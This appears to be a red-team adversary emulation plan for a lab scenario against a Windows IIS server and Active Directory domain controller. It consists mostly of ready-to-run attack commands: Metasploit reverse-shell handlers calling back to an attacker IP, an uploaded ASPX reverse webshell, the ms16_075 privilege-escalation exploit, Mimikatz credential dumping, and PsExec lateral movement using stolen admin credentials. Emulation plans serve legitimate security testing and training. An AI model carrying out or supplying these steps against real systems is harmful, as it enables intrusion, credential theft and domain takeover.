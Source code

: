 # Scenario 1

## I. Preface
This emulation plan contains several placeholder values that are meant to be replaced with values specific to the target environment against which this plan is to be run.

|||
|-|-|
|`<user_admin>`| Username of local admin account |
|`<pass_admin>`| Username of local admin account |
|`<domain>`| Name of the domain |
|`<ip_attacker>`| IP of attacker's computer |
|`<ip_iis`| IP of IIS Server |
|`<name_ad>`| Name of AD Server |


## II. Contents

* [Step 0 - Setup](#step0)
* [Step 1 - Initial Access](#step1)
* [Step 2 - Privilege Escalation](#step2)
* [Step 3 - Credentials Dumping](#step3)
* [Step 4 - Domain Discovery](#step4)
* [Step 5 - Lateral Movement](#step5)

---

### Pre-requisites

Prior to beginning the following emulation Scenario, ensure you have the proper infrastructure requirements and configuration in place as stated in the [Scenario 1 Infrastructure](./Infrastructure.md) documentation.

---

### Step 0 - Setup <a name="step0"></a>

#### 0 - Start C2 Server
On the `Attack Platform`:

1. `ctrl - alt - T` to open `Terminal 1`

2. Start listening on port `4444`
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <ip_attacker>;set lport 4444;run'
```

### Step 1 - Initial Access <a name="step1"></a>

The scenario begins when attacker successfully upload a reverse webshell `session.aspx` to the target's webserver. <br>
After opening the webshell, `Attack Platform` receives a connection from `IIS server`.

#### 1.A - Upload reverse shell

On the `Attack Platform`:

1. Open `<ip_iis>` on a web browser

2. Click `Browse...` and select `session.aspx` for uploading

3. Click `Send`

#### 1.B - Execute reverse shell

On the `Attack Platform`:

1. Open `<ip_iis>/session.aspx` on web browser

2. Now on `Terminal 1` there should be a meterpreter session


### Step 2  - Privilege Escalation <a name="step2"></a>

The attacker exploit `IIS server` using `Windows Net-NTLMv2 Reflection DCOM/RPC (Juicy)` vunerable to get `System` privilege

#### 2 - Obtain System shell
On the `Terminal 1` of `Attack Platform`:

1. Run these command on the meterpreter session obtained from the previous step
```
background
use exploit/windows/local/ms16_075_reflection_juicy
set TARGET 0
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set SESSION 1
exploit

```

### Step 3  - Credentials Dumping <a name="step3"></a>

With a `System` shell in hand, attacker starts to collect credentials cached in memory using `Mimikatz`

#### 3.A - Load Mimikatz

On the `Terminal 1` of `Attack Platform`:

1.  Load mimikatz to memory
```
load kiwi
```

#### 3.B - Dump credentials

On the `Terminal 1` of `Attack Platform`:

1.  Dump all types of credentials including `msv`, `wdigest`, `kerberos`. Note that in this scenario
we focus on `wdigest` credentials
```
creds_all
```

2.  Collect `<user_admin>`, `<pass_admin>` and `<domain>` 

### Step 4 - Domain Discovery <a name="step4"></a>

The attacker use `nslookup` on `<domain>` to get the domain controller's name `<name_ad>`

#### 4 - Find domain controller's name

On the `Terminal 1` of `Attack Platform`:

1.  Switch from meterpreter session to cmd shell
```
shell
```

2.  Run `nslookup` command
```
nslookup <domain>
```

3.  Obtain the server's name on the first line

4.  Return to meterpreter session
```
exit
```

### Step 5 - Lateral Movement <a name="step5"></a>

The attacker now has `<name_ad>`, `<user_admin>` and `<pass_admin>`. They now can remote execute a reverse shell on `AD server` using `PsExec` with above credentials.

#### 5.A - Tools transfer

On the `Terminal 1` of `Attack Platform`:

1.  Upload `PsExec.exe` to `C:\Users\<user_admin>\AppData\Local\Temp`
```
upload /tmp/modules/PsExec.exe C:\\Users\\<user_admin>\\AppData\\Local\\Temp\\PsExec.exe
```

2.  Upload `session.exe` to `C:\Users\<user_admin>\AppData\Local\Temp`
```
upload /tmp/modules/session.exe C:\\Users\\<user_admin>\\AppData\\Local\\Temp\\session.exe
```

#### 5.B - Listen for another session

On the `Attack Platform`:

1. `ctrl - alt - T` to open `Terminal 2`

2. Start listening on port `4445`
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <ip_attacker>;set lport 4445;run'
```

#### 5.C - Remote Execute

On the `Terminal 1` of `Attack Platform`:

1.  Move to the tools's location
```
shell
cd C:\Users\<user_admin>\AppData\Local\Temp
```

2.  Run `PsExec.exe` to execute `session.exe` on `AD Server`
```
psexec.exe \\<name_ad> -i -h -u <user_admin> -p <pass_admin> -accepteula -d -c session.exe
```

3.  Now `Terminal 2` should receive a connection back from `AD Server` with local admin privilege


## III. Cited Intelligence

